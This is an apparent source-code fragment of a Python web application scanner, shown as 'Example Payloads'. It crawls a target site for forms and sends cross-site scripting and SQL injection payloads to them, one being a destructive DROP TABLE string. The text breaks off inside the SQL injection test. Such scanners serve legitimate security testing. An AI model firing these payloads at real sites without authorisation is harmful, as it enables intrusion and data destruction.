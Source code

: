 ## Example Payloads

### Comprehensive Web Application Scanner
```python
#!/usr/bin/env python3
import requests
import re
from urllib.parse import urljoin, urlparse

class WebAppScanner:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.vulnerabilities = []
        self.found_forms = []
    
    def crawl_application(self):
        """Basic crawling to find forms and endpoints"""
        response = self.session.get(self.target_url)
        
        # Find forms
        forms = re.findall(r'<form[^>]*>(.*?)</form>', response.text, re.DOTALL | re.IGNORECASE)
        for form in forms:
            action = re.search(r'action=[\'"](.*?)[\'"]', form)
            method = re.search(r'method=[\'"](.*?)[\'"]', form)
            
            if action:
                form_url = urljoin(self.target_url, action.group(1))
                form_method = method.group(1) if method else 'GET'
                self.found_forms.append((form_url, form_method))
    
    def test_xss(self):
        """Test for Cross-Site Scripting vulnerabilities"""
        xss_payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "javascript:alert('XSS')"
        ]
        
        for form_url, method in self.found_forms:
            for payload in xss_payloads:
                data = {'input': payload, 'search': payload, 'comment': payload}
                
                if method.upper() == 'POST':
                    response = self.session.post(form_url, data=data)
                else:
                    response = self.session.get(form_url, params=data)
                
                if payload in response.text:
                    self.vulnerabilities.append(f"XSS found at {form_url}")
    
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        sqli_payloads = [
            "'",
            "' OR '1'='1",
            "' OR 1=1--",
            "'; DROP TABLE test;--"
        ]
        
        for form_url, method in self.found_forms:
            for payload in sqli_payloads:
```